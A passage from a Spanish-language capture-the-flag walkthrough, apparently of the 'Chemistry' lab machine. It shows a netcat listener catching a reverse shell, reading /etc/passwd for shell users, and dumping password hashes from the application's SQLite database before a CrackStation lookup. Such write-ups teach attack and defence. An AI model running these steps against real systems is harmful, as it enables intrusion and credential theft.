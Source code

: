 Nos ponemos en escucha con netcat para recibir la reverse shell.

```
nc -lnvp 1234

listening on [any] 1234 ...
connect to [10.10.14.90] from (UNKNOWN) [10.129.235.159] 45512
ls
app.py
instance
static
templates
uploads
```

Nos ha llegado la reverse shell. Vamos a listar los usuarios en la máquina con una shell, que normalmente acaba en "sh".

```
cat /etc/passwd | grep -E 'sh$'

root:x:0:0:root:/root:/bin/bash
rosa:x:1000:1000:rosa:/home/rosa:/bin/bash
app:x:1001:1001:,,,:/home/app:/bin/bash
```

Ya sabiendo los usuarios vamos a leer la base de datos de la aplicación, para ver si se reutiliza alguna credencial con la del sistema.

```
sqlite3 instance/database.db

SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
structure  user
sqlite> select * from user;
1|admin|2861debaf8d99436a10ed6f75a252abf
2|app|197865e46b878d9e74a0346b6d59886a
3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5
```

Hay un usuario `rosa` una contraseña hasheada. Comprobaremos si está en la base de datos de crackstation.

![crackstation](../../img/Chemistry/crackstation.png)
